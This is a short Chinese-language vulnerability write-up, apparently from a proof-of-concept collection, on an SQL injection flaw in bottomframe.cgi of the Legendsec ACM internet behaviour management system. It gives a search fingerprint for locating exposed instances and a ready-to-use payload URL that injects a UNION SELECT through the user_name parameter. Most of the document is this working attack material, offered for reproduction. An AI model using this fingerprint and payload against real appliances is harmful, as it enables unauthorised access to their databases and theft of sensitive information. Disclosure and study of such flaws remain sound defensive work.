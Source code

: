 # 网御 ACM上网行为管理系统 bottomframe.cgi SQL注入漏洞

## 漏洞描述

网御 ACM上网行为管理系统 bottomframe.cgi 存在SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库敏感信

## 漏洞影响

网御 ACM上网行为管理系统

## 网络测绘

```
"scripts/webcommon.js"
```

## 漏洞复现

登录页面

![image-20230828161622332](images/image-20230828161622332.png)

验证POC

```
/bottomframe.cgi?user_name=%27))%20union%20select%20md5(1)%23
```

![image-20230828161702043](images/image-20230828161702043.png)